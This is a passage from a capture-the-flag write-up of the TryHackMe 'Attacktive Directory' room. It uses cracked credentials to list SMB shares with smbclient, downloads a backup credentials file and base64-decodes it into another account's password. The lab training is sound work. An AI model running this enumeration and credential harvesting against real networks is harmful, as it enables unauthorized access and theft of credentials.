 <details><summary><b>Now crack the hash with the modified password list provided, what is the user accounts password?</b></summary></details><br>


## 🔍 Enumeration

Back again at the enumeration process. With the retrived credentials, we can try to **enumerate the <code>SMB</code> shares**:
```
┌──(kali㉿kali)-[/mnt/…/Learning/TryHackMe/Machines/Attacktive Directory]
└─$ smbclient -L //<MACHINE-IP>/ -U 'svc-admin'%'management2005'

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        backup          Disk      
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        SYSVOL          Disk      Logon server share 
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to <MACHINE-IP> failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
```

<details><summary><b>What utility can we use to map remote SMB shares?</b></summary></details><br>

<details><summary><b>Which option will list shares?</b></summary></details><br>

<details><summary><b>How many remote shares is the server listing?</b></summary></details><br>

Try to **enumerate more the shares**:
```
┌──(kali㉿kali)-[/mnt/…/Learning/TryHackMe/Machines/Attacktive Directory]
└─$ smbclient //<MACHINE-IP>/backup -U 'svc-admin'%'management2005' 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sun Apr  5 03:08:39 2020
  ..                                  D        0  Sun Apr  5 03:08:39 2020
  backup_credentials.txt              A       48  Sun Apr  5 03:08:53 2020

                8247551 blocks of size 4096. 3561007 blocks available
smb: \> get backup_credentials.txt
```

```
┌──(kali㉿kali)-[/mnt/…/Learning/TryHackMe/Machines/Attacktive Directory]
└─$ cat backup_credentials.txt | base64 -d
backup@spookysec.local:backup2517860
```

<details><summary><b>There is one particular share that we have access to that contains a text file. Which share is it?</b></summary></details><br>

<details><summary><b>What is the content of the file?</b></summary></details><br>
